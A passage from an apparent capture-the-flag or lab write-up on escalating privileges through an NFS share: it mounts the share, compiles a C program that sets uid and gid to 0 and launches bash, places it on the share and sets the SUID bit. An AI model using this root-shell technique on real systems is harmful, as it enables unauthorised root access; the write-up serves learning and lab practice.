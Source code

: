 ```bash
sudo mount -t nfs 10.10.249.239:/home/ubuntu/sharedfolder /tmp/bb
```

#### Creating the binary and giving the `SUID`

The `C` code:

```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
return 0;
}
```

Compiling it..
```bash
sudo gcc -static -o rooted exp.c
sudo cp rooted bb/rooted
```

Setting the `SUID`...
```bash
sudo chmod +s bb/rooted
```

On host..

![host.png](../../files/photos/host.png)

